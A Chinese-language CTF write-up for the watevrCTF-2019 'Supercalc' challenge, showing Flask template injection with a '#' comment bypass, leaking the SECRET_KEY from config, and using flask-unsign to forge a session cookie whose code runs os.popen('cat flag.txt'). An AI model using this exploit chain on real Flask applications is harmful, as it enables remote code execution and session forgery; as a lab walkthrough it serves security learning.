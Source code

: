 # \[watevrCTF-2019]Supercalc

## \[watevrCTF-2019]Supercalc

## 考点

* Flask SSTI获取config
* Flask SSTI使用注释绕过，`#`绕过

## wp

输入`9*9`发现会回显

![](<../../.gitbook/assets/image (1) (1).png>)

返回包会设置新的cookie

![](<../../.gitbook/assets/image (24) (1).png>)

解密cookie

```
flask-unsign.exe --decode --cookie .eJyrVsrILC7JL6pUsoquVkrOT0lVslKyVNBSsFSq1SEoEFsLAHINEiw.Ympom w.4lGVLm2AEMchuz70376S52EDT6M
{'history': [{'code': '9 * 9'}, {'code': '9 * 9'}, {'code': '9 * 9'}]}
```

直接输入`{{7*7}}`或者`{%print(1)%}`会提示字符错误

计算器的功能那就输入`1/0`主动构造错误输入

![](<../../.gitbook/assets/image (22) (1).png>)

发现它是把输入直接当代码处理的，这里可以fuzz一下看看哪些字符串没过滤

输入`1/0#{{7*7}}`可以看到回显的结果

![](<../../.gitbook/assets/image (8) (1).png>)

输入输入`1/0#{{config}}`获取config

```
Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'cded826a1e89925035cc05f0907855f7', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}
```

题目把cookie中的code执行了，修改为Python代码

```
flask-unsign.exe --secret "cded826a1e89925035cc05f0907855f7" --sign --cookie "{'history': [{'code': '__import__(\"os\").popen(\"cat flag.txt\").read()'}]}"
```

结果`eyJoaXN0b3J5IjpbeyJjb2RlIjoiX19pbXBvcnRfXyhcIm9zXCIpLnBvcGVuKFwiY2F0IGZsYWcudHh0XCIpLnJlYWQoKSJ9XX0.YmpyRw.x1LGNmBA3XHPATpHZDhGadZOoNA`

![](<../../.gitbook/assets/image (34) (1).png>)
